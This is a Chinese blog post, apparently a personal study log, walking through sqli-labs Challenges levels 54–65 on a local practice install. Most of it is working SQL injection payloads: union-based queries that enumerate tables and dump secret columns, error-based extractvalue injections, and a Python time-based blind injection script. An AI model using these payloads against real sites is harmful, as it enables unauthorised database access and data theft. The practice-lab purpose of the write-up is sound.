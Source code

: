 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      sqli-labs做题记录(四)               # 标题 
subtitle:   Challenges #副标题
date:       2019-08-30              # 时间
author:     Von                      # 作者
header-img: img/post-bg-universe.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - SQL

---
```


# Less-54
从这关开始就进入Challenges了，觉得这种模式还是有点新奇的，限制了尝试次数。而且也像CTF一样有要求一个目标的secret key了。这关总共给了10次机会。
```
1.  127.0.0.1/sqli-labs-master/Less-54/?id=1' and 1=1--+
2.  127.0.0.1/sqli-labs-master/Less-54/?id=1' and 1=2--+
3.  127.0.0.1/sqli-labs-master/Less-54/?id=1' order by 1--+
4.  127.0.0.1/sqli-labs-master/Less-54/?id=1' order by 2--+
5.  127.0.0.1/sqli-labs-master/Less-54/?id=1' order by 3--+
6.  127.0.0.1/sqli-labs-master/Less-54/?id=1' order by 4--+
7.  127.0.0.1/sqli-labs-master/Less-54/?id=-1' union select 1,2,3--+
8.  127.0.0.1/sqli-labs-master/Less-54/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
9.  127.0.0.1/sqli-labs-master/Less-54/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='cyyiapy75g'--+
10.  127.0.0.1/sqli-labs-master/Less-54/?id=-1' union select 1,2,group_concat(sessid,0x3a,secret_FBHX) from cyyiapy75g--+
```

# Less-55
```
1.  127.0.0.1/sqli-labs-master/Less-55/?id=1' and 1=1--+
2.  127.0.0.1/sqli-labs-master/Less-55/?id=1') and 1=1--+
3.  127.0.0.1/sqli-labs-master/Less-55/?id=1) and 1=1--+
4.  127.0.0.1/sqli-labs-master/Less-55/?id=-1) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
5.  127.0.0.1/sqli-labs-master/Less-55/?id=-1) union select 1,2,group_concat(column_name) from information_schema.columns where table_name='5q25g5zis5'--+
6.  127.0.0.1/sqli-labs-master/Less-55/?id=-1) union select 1,2,(select secret_8TNV from 5q25g5zis5)--+
```

# Less-56
```
1.  127.0.0.1/sqli-labs-master/Less-56/?id=1' and 1=1--+
2.  127.0.0.1/sqli-labs-master/Less-56/?id=1') and 1=1--+
3.  127.0.0.1/sqli-labs-master/Less-56/?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
4.  127.0.0.1/sqli-labs-master/Less-56/?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='yozuj3pzjl'--+
5.  127.0.0.1/sqli-labs-master/Less-56/?id=-1') union select 1,2,(select secret_UBWQ from yozuj3pzjl)--+
```

# Less-56
经简单判断可以得出闭合方式为')，其余步骤与前面几关雷同。  

# Less-57
经简单判断可以得出闭合方式为"，其余步骤与前面几关雷同。

# Less-58
经过测试可以知道闭合为'，但是union注入并不能得出数据，故在这里我们考虑报错注入。  
```
127.0.0.1/sqli-labs-master/Less-58/?id=1' and extractvalue(1,concat(1,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))--+
http://127.0.0.1/sqli-labs-master/Less-58/?id=1' and extractvalue(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='n7dnsulx9w')))--+
http://127.0.0.1/sqli-labs-master/Less-58/?id=1' and extractvalue(1,concat(1,(select group_concat(secret_WMWC) from n7dnsulx9w)))--+
```

# Less-59
这道题只是将闭合由'改成没有闭合而已。其余步骤模仿Less-58即可。  

# Less-60
这道题是闭合改成"),其余步骤模仿Less-58。  

# Less-61
先传入个id=1'试试，发现有如下报错:  
```
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'')) LIMIT 0,1' at line 1 
```
可以得知闭合方式为')),接下来的步骤便模仿Less-58。

# Less-62
由限制次数130就可以知道是盲注了。脚本如下:
```
import requests
import time
url = "http://127.0.0.1/sqli-labs-master/Less-62/"
result  = ''
string1 = '0123456789abcdefghijklmnopqrstuvwxyz'
for i in range(1,11):
	for j in string1:
		payload = "1') and if((substr((select group_concat(table_name)from(information_schema.tables)where(table_schema)='challenges'),{},1)>'{}'),sleep(1),sleep(2))#".format(i,j)
		data = {"id":payload}
		time1 = time.time()
		headers = {"Cookie":"challenge=b1d69d7f6eceef8700a1dc70160ec0ff"}
		r = requests.get(url,params = data,headers = headers)
		time2 = time.time()
		time3 = time2 - time1
		if time3  > 3:
			result += j
			print result
			break
```
只是这样是超过130次的了，我在这里还没有使用二分法破解，但是即使使用二分法也是不能满足要求的。等技术大佬解答吧。  

# Less-63
和Less-62是一样的，只是闭合方式由')改成'而已。  

# Less-64
和Less-62是一样的，只是闭合方式由')改成))而已。  

# Less-65
和Less-62是一样的，只是闭合方式由')改成)而已。  


